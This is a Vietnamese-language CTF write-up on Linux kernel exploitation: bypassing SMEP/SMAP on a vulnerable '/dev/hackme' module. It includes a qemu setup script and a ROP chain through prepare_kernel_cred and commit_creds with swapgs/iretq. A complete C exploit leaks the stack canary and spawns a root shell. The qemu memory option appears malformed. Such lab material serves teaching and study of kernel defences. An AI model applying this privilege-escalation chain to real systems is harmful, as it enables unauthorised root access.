

# part1.1_bypass_smep

## setup

- Mục tiêu của part 1.1 lần này mình sẽ cố gắng bypass smep smap để có thể hiểu rõ hơn phần lý thuyết
- Challenge mình sử dụng lại ở `part 1`
- Một số chỉnh sửa ở `setup.sh`. Mình sẽ bật `smep, smap` và tắt `kaslr`

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M, smep, smep\
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr nopti quiet panic=1" \
    -s
```

- Khi mình thực hiện lại phần exploit của part 1, lớp bảo vệ smep đã hoạt động:
  

## Khai thác

- Tương tự như part 1, mình sẽ sửa `write_module` để bypass smep
- Mục tiêu ta sẽ như sau:

```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

- Điều kiện tốt nhất nếu ta có gadget `mov rdi, rax; ret` tuy nhiên nếu không gadget tốt nhất, ta sẽ phải set up tuỳ theo các gadget mà ta có:

```c
payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8;                      // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret;     // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;             // commit_creds(prepare_kernel_cred(0))
```
- 
```
╰─ objdump -j .text -d ./vmlinux | grep iretq | head -1
ffffffff8100c0d9:       48 cf                   iretq
```
## script
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

int fd_ko;
void open_module()
{
    fd_ko = open("/dev/hackme", O_RDWR);
    if (fd_ko < 0)
    {
        printf("open fail");
        exit(0);
    }
}
long int canary = 0;
void read_module()
{
    long int tmp[0x10 + 5];
    int check = read(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("read fail\n");
        exit(0);
    }
    for (int i = 0; i < 0x10 + 5; i++)
    {
        printf("hackme[%d]: %lp\n", i, tmp[i]);
    }
    canary = tmp[16];
}

void get_shell(void)
{
    puts("[*] Returned to userland");
    if (getuid() == 0)
    {
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    }
    else
    {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long user_rip = (unsigned long)get_shell + 1;

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616;              // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4;     // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void write_module(void)
{
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = canary;
    payload[off++] = 0x0;                 // rbx
    payload[off++] = 0x0;                 // r12
    payload[off++] = 0x0;                 // rbp
    payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8;                      // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret;     // make sure JNE doesn't branch
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;             // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret;          // swapgs
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = iretq;                    // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(fd_ko, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

int main()
{
    save_state();
    open_module();
    read_module();
    write_module();
}
```